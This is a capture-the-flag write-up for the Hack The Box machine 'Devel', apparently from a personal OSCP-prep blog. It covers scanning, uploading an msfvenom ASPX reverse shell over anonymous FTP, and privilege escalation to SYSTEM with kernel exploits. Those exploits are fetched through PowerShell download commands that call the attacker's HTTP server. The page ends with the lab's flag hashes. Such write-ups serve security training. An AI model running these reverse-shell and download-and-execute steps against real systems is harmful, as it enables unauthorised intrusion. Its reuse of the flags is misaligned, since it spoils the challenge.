{kind=link}
devel

nmap
nmap -sC -sV -oA nmap/devel 10.10.10.5
nmap shows
• ftp is running on port 21 with Microsoft ftpd anonymous logins
• http is running on port 80 with ISS httpd 7.5
http

gobuster
gobuster dir -u 10.10.10.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
unfortunately nothing gets found with a simple gobuster dirbust
ftp anonymous
our nmap scan shows its FTP server allows anonymous logins so next logical step is to see what's in the ftp share
ftp 10.10.10.5

welcome.png

ftp upload
lets upload an arbitrary text file to the ftp server
put test.txt

we see it was uploaded, now lets navigate to is in our web browser

perfect, now lets try uploading a script that will call back a shell to us
root through metasploit
first we want to upload our malicious .aspx file into devel's ftp server and run itmsfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f aspx > shell.aspx

now connect back to Devel's ftp server and upload the .aspx reverse shell with
put shell.aspx

msfvenom aspx reverse shell
in order to spawn a meterpreter shell, we'll have to set up a multihandler in metasploit
set lhost tun0
run

now that our listener is ready, navigate to our .aspx payload by visiting its file directly in the webbrowser


suggester
now that we have our foothold, lets background our session and search for metasploit's local_exploit_suggester module to enumerate all the different vulnerabilities we can use to escalate our privileges to system

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
kitrap0d
although it was not verified to be vulnerable, kitrap0d has a known reputation for being a very powerful privilege escalation tool
use windwos/local/ms10_015_kitrap0d
to load up the module and
show options

from here we simply set the session to our backgrounded meterpreter session number 1
run

and we're system!
w/o metasploit
revisiting this box to crack it without metasploit's crutchinitial foothold will only differ in the payload we use along with msfvenom
initial foothold
first we want to upload our malicious .aspx file into devel's ftp server and run itlets generate our payload with msfvenom
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.62 LPORT=4444 -o reverse_shell.aspx
where
-p payload that will connect back to our netcat listener is windows/shell_reverse_tcp
-f filetype will be .aspx
LHOST is our attack machine's IP
LPORT will be the port we configure our netcat listener on
-o output filename will be reverse_shell.aspx

next we'll upload our payload onto the devel's ftp server

set our listener on port 4444

and navigate to 10.10.10.5/shell.aspx to run our reverse shell back to us


we're in as iss apppool

windows exploit suggester
lets use windows_exploit suggester, to find vulnerabilities and privilege escalation routes on this machine, to do that we must1) update our exploit suggester database
2) save the box's sysinfo output to a file
first lets update the database
python windows-exploit-suggester.py -update

now lets run the suggester with the command:
python windows-exploit-suggester.py -i /root/Documents/htb/boxes/devel/withoutMeta/sysinfo -d 2020-06-23-mssb.xls

sysinfo
running systeminfo on in our shell will output everything we need for windows-exploit-suggester
report
there are a lot of exploits to choose from that can escalate our privileges to root, but for now
lets follow rana and use the MS11-011 and see if we have the exploit in our windows_kernel_exploits folder
MS11-011 (fail)
there is a windows-kernel-exploits github repository filled a variety of different windows exploits herechecking the windows kernel exploit directory we have ms11-011 installed (although we can find the same exploit with searchsploit as a c program, compile it with mingw-w64 to an exe that way)


lets spin up an http server in this directory and download it to our victim machine

readme
download exploit to victim
for this we'll use the powershell commandpowershell -c "(new-object system.net.webclient).downloadFile('http://10.10.14.62:5555/MS11-011.exe', 'c:\Users\Public\Downloads\MS10-011.exe')"

now run it
MS11-011.exe

not quite working so lets try another potential exploit
MS011-046 (win)
we don't need to compile the source code here because the windows-kernel-exploit repo has post compiled exploit

powershell -c "(new-object system.net.webclient).downloadFile('http://10.10.14.62:5555/ms11-046.exe', 'c:\Users\Public\Downloads\ms11-046.exe')"
run it with
ms11-046.exe

and we're system!
MS13-005 (win) chimichurri
lets try one more exploit from our suggester for good measure
also known as the chimichurri exploit (no idea why)
we see we already have an executable in our windows-kernel-exploit folder so lets give MS10-059 a shot

first, set up our http server and download the exploit to devel through our foothold shell
powershell -c "(new-object system.net.webclient).downloadFile('http://10.10.14.62:5555/MS10-059.exe', 'c:\Users\Public\Downloads\MS10-059.exe')"


finally, run chimichurri with our attack machine ip and listening port as arguments
MS10-059.exe 10.10.14.62 4444

and we have a system shell!

user/root
9ecdd6a3aedf24b41562fea70f4cb3e8

e621a0b5041708797c4fc4728bc72b4b
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/